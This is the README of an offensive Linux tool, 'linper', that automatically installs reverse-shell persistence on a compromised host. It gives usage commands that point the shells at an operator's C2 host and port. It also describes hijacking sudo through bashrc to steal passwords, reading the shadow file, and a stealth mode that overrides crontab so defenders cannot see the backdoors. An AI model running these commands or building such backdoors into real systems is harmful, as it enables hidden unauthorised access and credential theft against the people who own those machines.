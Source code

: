 # linper

Automated Linux Persistence Establishment

Automatically install multiple methods of persistence, or just enumerate possible methods.

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute on target
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

Enumerate all persistence methods and install

`bash linper.sh --rhost myc2.host.domain --rport 4444`

Enumerate and do not install

`bash linper.sh -d`

Enumerate all persistence methods and install (stealth mode)

`bash linper.sh --rhost myc2.host.domain --rport 4444 --stealth-mode`

## methodology

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is set

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

## stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bash_aliases to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells.

### known limitation

1. If you run `--stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bash_aliases because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)